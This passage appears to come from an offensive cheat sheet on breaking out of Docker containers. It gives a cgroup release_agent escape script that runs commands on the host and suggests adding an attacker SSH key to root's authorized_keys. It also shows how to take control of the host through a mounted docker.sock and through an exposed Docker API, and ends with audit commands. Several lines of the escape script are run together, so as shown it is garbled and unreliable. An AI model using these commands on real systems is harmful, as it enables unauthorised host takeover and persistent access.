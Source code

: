### Escape NET\_ADMIN docker container

```
# Check if you're NET_ADMIN
ip link add dummy0 type dummy
ip link delete dummy0
# If it works, this script execute 'ps aux' in host:
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/xecho 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agentecho '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmdsh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
# You can replace the 'ps aux' command for:
cat id_dsa.pub >> /root/.ssh/authorized_keys
```

### Attack insecure volume mounts

```
# After get reverse shell in docker container (eg insecure webapp with RCE)
# This commands are executed inside insecure docker container
# Check if it's available docker.sock
ls -l /var/run/docker.sock
# This allows to access the host docker service using host option with docker client by using the UNIX socket
# Now download docker client in container and run commands in host
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
```

### Attack docker misconfiguration

```
# Docker container with exposed ports running docker service
# Docker API is exposed in those docker ports
# Check query docker API with curl
curl 10.11.1.111:2375/images/json | jq .
# Then you can run commands in host machine
docker -H tcp://10.11.1.111:2375 ps
docker -H tcp://10.11.1.111:2375 images
```

### Audit Docker Runtime and Registries

```
# Runtime

# Host with multiple dockers running
# Check docker daemon
docker system info
# Check docker API exposed on 0.0.0.0
cat /lib/systemd/system/docker.service
# Check if docker socket is running in any container
docker inspect | grep -i '/var/run/'
# Check rest of files docker related
ls -l /var/lib/docker/
# Check for any secret folder
ls -l /var/run/
ls -l /run/

# Public Registries
# Docker registry is a distribution system for Docker images. There will be diferent images and each may contain multiple tags and versions. By default the registry runs on port 5000 without authentication and TLS
```